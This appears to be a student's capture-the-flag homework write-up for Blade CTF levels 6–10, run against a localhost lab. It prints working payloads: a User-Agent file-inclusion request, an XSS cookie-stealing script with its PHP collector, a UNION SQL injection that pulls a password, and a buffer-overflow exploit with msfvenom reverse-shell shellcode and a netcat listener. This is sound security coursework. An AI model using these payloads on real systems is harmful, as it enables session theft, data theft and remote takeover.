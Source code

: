 # Homework 6 - Blade CTF challenges

## Level 6

Level 6 tells you what browser you are using. Inspecting the PHP script, we can see that it reads the HTTP_USER_AGENT. If it is `safari` it opens `safari.php`, `firefox.php` if it is `firefox`. If its not either of those, it includes a file with the same name as the user agent. Therefore in order to open the required file, we can use the following curl command: `curl --location --request GET 'http://localhost:8080/~level06/cgi-bin/index.php' --header 'User-Agent: s3cr37.pwd'`

## Level 7

Level 7 has a login prompt, that saves the username and password inside a cookie. There is also a comments section which is vulnerable to XSS. The following PHP script can be used to steal the cookies:

```php
<?php
	$cookies = $_GET["c"];
	$file = fopen("/home/icyfire/public_html/cookie.txt", "a");
	fwrite($file, $cookies . "\n\n");
?>
```

We can inject some javascript in the following form to redirect the admin to this cookie stealing PHP script:

```javascript
<SCRIPT>window.location.href="/~icyfire/cookie.php?c=" + document.cookie</SCRIPT>
```

## Level 8

Playing around with the new user page in the blog, we can see that the field is vulnerable to SQL injection. On providing `xyz'` as username we can see that the SQL query used is: `SELECT * FROM users WHERE username='xyz''`. Using trial and error to find the right number of columns used for the SELECT query, we can use the following query to find the password for Zanardi: `xyz' UNION SELECT (SELECT password FROM users WHERE username='admin'),2,3,4,5,6 #`

## Level 9

The form sends username and data to a C CGI script called `parse`. Looking at the source code `parse.c` we see:

```c
data = getenv("QUERY_STRING");
...
pos = strchr(data, '&');
...
if (sscanf(data,"u=%s", u) != 1) {
...
if (sscanf(pos, "p=%s", p) != 1) {
...
```

Here we can see that the query parameters are read from the environment and parsed using `sscanf` function. Since there is no validation being done, this is vulnerable to buffer overflow. Using GDB we can find the exact position of the return address and overwrite it with the location of the shell code. The shell code can be sent along with the input as well. Since the CGI script stores everything in the environment, the shell code will be available in the environment as well. Since this is a web-based application, it will reject a lot of characters. Using the following script we can find all the bad characters rejected by the script.


```python
import socket
url = b"/~icyfire/cgi-bin/parse?u=AA&p="
out = ""
for i in range(256):
    char = chr(i)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1" , 80))
    http_request = b"GET " + url + char + b" HTTP/1.1\r\nHost: localhost\r\n\r\n"
    s.sendall(http_request)
    if "server could not understand" in s.recv(4096).decode():
        hex_chars = list(str(hex(ord(char))).replace('0x','\\x'))
        if len(hex_chars) == 3:
            hex_chars.insert(2, '0')
        out += ''.join(hex_chars)
    s.close()
print(out)
```

We are using python sockets in the above script to ensure that the bytes are sent as it is and are not URL encoded. Running the script we can see that the rejected characters are `\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x23\x7f`

We can then use Metasploit to generate shell code using the following command: `msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4321  -b "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x23\x7f" -f python`

Since the environment from GDB will be completely different from what is going to be in the actual environment, we can use a python script to find the right address to overwrite.

```python
import socket
from pwn import p32

host = "localhost"
port = 80
path = b"~level09/cgi-bin/parse"
query_string = b"?u=AA&p=ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

shellcode = b"\x90"*100 + b"\x89\xe5\xd9\xc1\xd9\x75\xf4\x5b\x53\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x46\x51\x6b\x6b\x4c\x37\x5a\x43\x32\x73\x31\x53\x56\x33\x31\x7a\x57\x72\x4b\x39\x58\x61\x4c\x70\x71\x76\x7a\x6d\x6b\x30\x6d\x43\x63\x69\x6e\x50\x57\x4f\x58\x4d\x4f\x70\x62\x69\x54\x39\x4b\x49\x75\x38\x51\x6f\x65\x50\x45\x50\x73\x31\x43\x58\x43\x32\x73\x30\x74\x50\x58\x61\x4f\x79\x4d\x31\x48\x30\x71\x76\x32\x70\x43\x61\x31\x43\x4c\x73\x57\x73\x6f\x79\x4d\x31\x6a\x6d\x6b\x30\x53\x62\x53\x58\x42\x4e\x36\x4f\x62\x53\x53\x58\x43\x58\x36\x4f\x74\x6f\x32\x42\x62\x49\x4e\x69\x4b\x53\x71\x42\x46\x33\x4b\x39\x58\x61\x48\x30\x46\x6b\x7a\x6d\x6b\x30\x41\x41"

beg = 0xffffdbe6

for i in range(beg, beg + 1024):
    print(p32(i))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    url = query_string + p32(i) + shellcode
    request = b"POST /" + path  +  url + b" HTTP/1.1\r\nHost: localhost\r\n\r\n"
    s.connect((host, port))
    s.sendall(request)
    response = s.recv(4096)
    #print(response.decode())
    s.close()
```

Start a netcat listener using `nc -lvp 4321` and run the above script. Once we have the shell we can reveal the `oldlog.txt` file.

## Level 10

The webpage loads a java applet called `PacMan.class`. On opening the applet in a decompiler, we the following two strings in one of the classes: `KhniXck@pf}i` and ```E`vQl`Vbtc}```. On trying these, we find that these aren't the final answers. On further inspection of the applet class, we find a function named `decrString`. The function takes in a string as argument and modifies the string using the following formula: string[i] = string[i] - i if i is even string[i] = string[i] + i if i is odd. Applying the same modification on the two strings above, we get the final answers: `KillTheGhost` and `EatThePills`.